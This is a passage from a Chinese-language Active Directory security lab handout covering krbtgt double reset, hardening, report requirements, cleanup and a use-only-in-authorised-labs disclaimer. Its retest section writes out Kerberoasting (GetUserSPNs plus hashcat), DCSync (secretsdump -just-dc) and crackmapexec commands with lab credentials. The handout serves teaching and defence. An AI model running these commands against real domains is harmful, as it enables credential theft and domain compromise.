$NewKrbtgtPwd1 = ConvertTo-SecureString "Krbtgt-Reset-2026-01!" -AsPlainText -Force
Set-ADAccountPassword -Identity "krbtgt" -NewPassword $NewKrbtgtPwd1 -Reset

# 等待域复制完成后，再执行第二次重置
$NewKrbtgtPwd2 = ConvertTo-SecureString "Krbtgt-Reset-2026-02!" -AsPlainText -Force
Set-ADAccountPassword -Identity "krbtgt" -NewPassword $NewKrbtgtPwd2 -Reset
```

> **为什么必须重置两次**：AD 内部保留上一次的密码。只重置一次，用旧密钥签发的黄金票据仍然有效。重置两次才能让旧密钥彻底失效。

#### 12.4 收紧复制权限与审计策略

- 移除非必要账户的目录复制权限
- 审核高权限组成员变更
- 启用目录服务访问、账户管理、Kerberos 服务票据相关日志
- 对服务账户启用最小权限和定期轮换

### 步骤 13：验证加固效果

#### 13.1 验证 Protected Users

```bash
crackmapexec smb 192.168.1.20 -d corp.local -u itadmin -p 'Admin@2024!'
```

预期现象：不再允许以普通 NTLM 方式完成原有认证流程。

#### 13.2 验证 Kerberoasting 收益下降

```bash
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py \
  corp.local/zhangsan:'P@ssw0rd123' \
  -dc-ip 192.168.1.20 \
  -request \
  -outputfile /tmp/tgs_new.txt

hashcat -m 13100 /tmp/tgs_new.txt /usr/share/wordlists/rockyou.txt --force
```

预期现象：仍可请求服务票据，但由于密码足够强，离线破解在实验时间内应难以成功。

#### 13.3 验证 DCSync 被阻断

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py \
  corp.local/sqlsvc:'Str0ng-Service-2026!'@192.168.1.20 \
  -dc-ip 192.168.1.20 \
  -just-dc
```

预期现象：复制权限已被正确移除，命令应失败或返回权限不足。

> 真正有效的加固，不是"看起来配过了"，而是攻击链真的走不通了。

---

# 实验报告要求

## 1. 报告必交内容

| 序号 | 记录项 | 建议内容 |
| --- | --- | --- |
| 1 | 实验环境 | 网络拓扑、主机 IP、域名、账户说明 |
| 2 | 域信息收集结果 | 用户、组、计算机、密码策略、SPN 列表 |
| 3 | Kerberoasting 过程 | TGS 哈希获取、离线破解结果、风险分析 |
| 4 | DCSync 结果 | 关键账户哈希的脱敏截图与文字说明 |
| 5 | BloodHound 分析 | 最短路径截图、关键错误授权点 |
| 6 | 加固与复测 | 改动项、命令、复测结果、结论 |

## 2. 思考题

1. Kerberoasting 为什么通常只需要普通域用户权限？
2. 为什么"弱口令服务账户 + 高权限/错误授权"会构成高风险组合？
3. DCSync 与直接登录域控导出哈希相比，有什么隐蔽性和危害差异？
4. `krbtgt` 密码为什么必须修改两次？
5. 如果你是域管理员，最优先修复的 3 个问题会是什么？为什么？

---

# 实验清理

## 1. 删除测试对象

```powershell
Remove-ADUser -Identity "zhangsan" -Confirm:$false
Remove-ADUser -Identity "itadmin" -Confirm:$false
Remove-ADUser -Identity "sqlsvc" -Confirm:$false
```

## 2. 恢复策略与快照

- 如果修改了 `krbtgt`、Protected Users、ACL 或 GPO，恢复到实验前快照
- 若需保留域环境，重新生成一套新的实验账户与随机密码
- 清理导出的哈希、票据、截图与临时文件

## 3. 恢复主机保护配置

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True
```

> 实验做完，环境一定要清。域实验最大的风险不是在实验过程中跑了什么命令，而是在结束后把高风险对象、票据和弱口令留在环境里。

---

> **免责声明**：本讲义仅用于授权的安全教学与实验环境。对任何未授权的 Active Directory 域环境实施枚举、票据攻击、复制攻击或权限提升，均可能构成严重违法违规行为。
